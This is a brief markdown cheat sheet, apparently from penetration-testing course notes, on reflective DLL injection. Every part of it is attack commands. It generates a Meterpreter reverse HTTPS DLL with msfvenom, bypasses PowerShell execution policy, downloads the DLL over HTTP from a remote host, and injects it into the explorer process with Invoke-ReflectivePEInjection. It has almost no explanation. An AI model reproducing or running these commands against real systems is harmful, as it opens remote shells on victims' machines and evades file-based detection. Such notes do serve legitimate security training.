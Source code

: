# Reflective DLL Injection

```
 sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.217 LPORT=443 -f dll -o /var/www/html/met.dll
```

```
PowerShell -Exec Bypass
```

```rust
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
```

```
$procid = (Get-Process -Name explorer).Id
```

```powershell
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```

```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
